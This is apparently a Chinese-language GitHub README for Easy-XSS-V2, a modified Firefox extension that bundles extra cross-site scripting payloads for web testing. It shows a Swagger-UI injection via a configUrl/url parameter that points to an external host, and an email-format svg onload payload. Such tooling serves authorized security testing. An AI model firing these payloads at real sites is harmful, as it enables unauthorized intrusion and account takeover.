 # Easy-XSS-V2

在使用EasyXSS的时候发现，payloads太少，所以萌生出了添加payloads的想法
原版（https://addons.mozilla.org/zh-CN/firefox/addon/easy-xss/）

![图片](https://user-images.githubusercontent.com/54035968/177011717-a5a2149f-b6d6-44a4-bb35-5cf45be69d3d.png)


以这个为原型找了下他的源代码，往上添加了一些自己常用的payloads

修改后
![图片](https://user-images.githubusercontent.com/54035968/177011780-85f549c6-a80d-4a95-9a92-11a57a409bb6.png)
 
不会太嘈杂，也好用一些


为了堵住嘴，我把修改后的代码放在了github上，可以看见很简单，也很好改动


如果你不信任我，那么请自己编译，然后自己添加到附件

zip -r ../XSS.xpi *


现在正在审核吧

![图片](https://user-images.githubusercontent.com/54035968/177011926-b9947d78-187a-43db-a1b2-de3f55292dd8.png)

审核结束应该就可以从市场看见了


为了给朋友使用，所以我在火狐插件上传了它，当然你如果有一些常用的payloads可以分享给我，然后我添加，或者自己添加

写于2022年7月3日晚上，几分钟就改好了

payloads解释
?configUrl=https://jumpy-floor.surge.sh/test.json
?url=https://jumpy-floor.surge.sh/test.yaml

这两个可能有的朋友没见过

请阅读这个文章
https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/#newsletter
Swagger-UI XSS

![图片](https://user-images.githubusercontent.com/54035968/177012301-548a5193-bc31-4496-b1bc-c269ee63947b.png)

基于电子邮件的格式的payloads
"><svg/onload=confirm(1)>"@x.y


剩下的应该可以看懂吧










